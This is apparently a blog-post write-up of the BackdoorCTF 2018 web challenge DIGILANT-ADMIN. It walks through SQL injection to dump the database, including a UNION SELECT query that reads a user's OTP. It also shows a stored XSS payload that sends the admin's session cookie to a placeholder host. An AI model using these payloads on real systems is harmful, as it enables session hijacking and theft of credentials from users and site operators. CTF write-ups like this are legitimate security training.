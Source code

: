 ```yaml
---
layout: post
title: BackdoorCTF 2018 - DIGILANT-ADMIN
author: crisis
comments: true
---
```


Here's my solution for the DIGILANT-ADMIN challenge of the *2018 BackdoorCTF*. I'm not sure wether I got the flag the intended way since there has been quite a few technical problems during the event, but here's how I did it anyway.

First of all, this was the challenge's description:
![](https://i.imgur.com/vemjbMy.png)

Once on the website, you could create an account by providing an email address, and then log in with the OTP sent to that email address.
![](https://i.imgur.com/Bch0ZOm.png)

Once logged in, the main thing you could do was to post a new message:
![](https://i.imgur.com/qY08mZY.png)
And report messages to the admin :
![](https://i.imgur.com/KOyK8oe.png)

The other interesting thing was the "Giveme flag" page, which stated:
```
No admin No flag
```


So my first idea was of course to try and find an exploitable XSS to log in as admin. I tried a few things, but it wasn't executing on the URL where you could see your post:
```
http://51.15.73.163/DIGILANT-ADMIN/posts.php?id=000af61e777d34ab
```
So I tried a few other things, and I found that the id parameter was vulnerable to an SQL injection and to an XSS injection:
![](https://i.imgur.com/2pIbQat.png)

I tried to steal the admin cookie with that XSS, but the bot wasn't clicking on my link. And the results of the SQL injections were also confusing at first since I couldn't read them. After testing a few things, I found out why - the results were decrypted as base64 before being returned. So the easy fix was to base64 encode it, as such:
![](https://i.imgur.com/zXCRAmp.png)

Since I wasn't successfull with the XSS, I decided to try exploiting the SQLi to get the admin pass and OTP. With the help of SQLMap, I dumped the content of the database:
![](https://i.imgur.com/87bPuIJ.png)
etc.
![](https://i.imgur.com/TlhkZJE.png)
etc.

And in theory I could have been done since I could have just logged in as "admin" and got the OTP directly from the database:
```sql
http://51.15.73.163/DIGILANT-ADMIN/posts.php?id=-1' UNION ALL SELECT to_base64(otp) FROM OTP WHERE umail='2d3686a381fa880ddab@gmail.com' -- -
```
But the problem was that I had no way to know which user was the admin. As you can see on the screenshot above there was many "random hash" accounts, and none of the accounts with the name "admin" in them was the real one. After trying a few of them, I decided to find another way rather than stupidly trying them all.
In the dump of the database, I noticed that many people had reported URLs like this:
![](https://i.imgur.com/UQigMAO.png)

That gave me a big hint. I had already noticed that HTML/JS was being executed on the homepage, and upon closer inspection of the code it turned out that there was a way to exploit an XSS in your posts:
![](https://i.imgur.com/m3cyYe3.png)

You just had to access your post's URL with `&full=true` appended to it:
![](https://i.imgur.com/L8RjsKN.png)

I made a new one with the standard
```html
<script>location.replace('yoursite.com?cookie='+document.cookie)</script>
```
injection, and I got the admin's PHPSESSID on requestbin:
![](https://i.imgur.com/6kwpoqS.png)

I modified my cookie, but got kicked out:
```
Login attempted from another IP address. Login again
```
Which was a problem since I still had no idea what the admin username was. But it turned out that if you tried logging in again with any account, you could briefly see the admin's name:
![](https://i.imgur.com/gFq9PJw.png)

I'm not sure wether this was intended or not. All I had to do then was to login with that username and get the OTP from the database, as shown before. But that wasn't even necessary, because if you entered a wrong OTP, the website would just show you the right one (here I just put "12" in):
![](https://i.imgur.com/sBZPX8Z.png)

Not sure if that was a bug or not either, but you could then just log in like that. And get the flag from the "Giveme flag" page :
![](https://i.imgur.com/1jyENgf.png)
